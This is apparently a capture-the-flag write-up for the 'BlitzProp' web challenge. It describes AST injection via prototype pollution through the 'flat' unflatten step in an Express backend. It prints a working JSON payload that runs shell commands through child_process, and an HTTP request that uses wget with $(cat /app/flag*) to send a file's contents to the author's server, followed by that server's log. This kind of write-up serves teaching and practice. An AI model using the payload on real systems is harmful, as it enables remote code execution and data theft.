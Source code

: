 # BlitzProp

Challenge text:
```
A tribute page for the legendary alien band called BlitzProp!
```
And the [source code](web_blitzprop)

The webpage had a form where you could submit your favorite song, which got send to the express.js backend in json format. Example:
```json
{
    "song.name": "ASTa la vista baby"
}
```
As we see in the source code, the request body is [unflattened](https://www.npmjs.com/package/flat), before it's later worked on. Due to this, and the hints from the song names, I assumed that the site was vulnerable to AST injection via prototype pollution. 

I found [this great blog post explaining it](https://blog.p6.is/AST-Injection/), and a working payload at the bottom.
```json
{
    "song.name": "ASTa la vista baby",
    "__proto__.block": {
        "type": "Text",
        "line": "process.mainModule.require('child_process').execSync(`ls`)"
    }
}
```
Now all I had to do was execute a shell command which would somehow get me the flag file (as I couldn't see the output of the shell commands). I tried a bash reverse shell, to no avail, and the machine didn't have curl either. I ended up wget'ting my web server with the flag file's content as the url path, which gave me the flag.

```
POST /api/submit HTTP/1.1
Host: 138.68.148.149:30964
Content-Length: 208
Content-Type: application/json
Accept: */*
Origin: http://138.68.148.149:30964
Referer: http://138.68.148.149:30964/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

{
    "song.name": "ASTa la vista baby",
    "__proto__.block": {
        "type": "Text",
        "line": "process.mainModule.require('child_process').execSync(`wget myurl/$(cat /app/flag*)`)"
    }
}
```

And on my webserver I saw
```bash
$ py -m http.server 3000
Serving HTTP on 0.0.0.0 port 3000 (http://0.0.0.0:3000/) ...
138.68.148.149 - - [21/Apr/2021 22:05:33] code 404, message File not found
138.68.148.149 - - [21/Apr/2021 22:05:33] "GET /CHTB{p0llute_with_styl3} HTTP/1.1" 404 -
```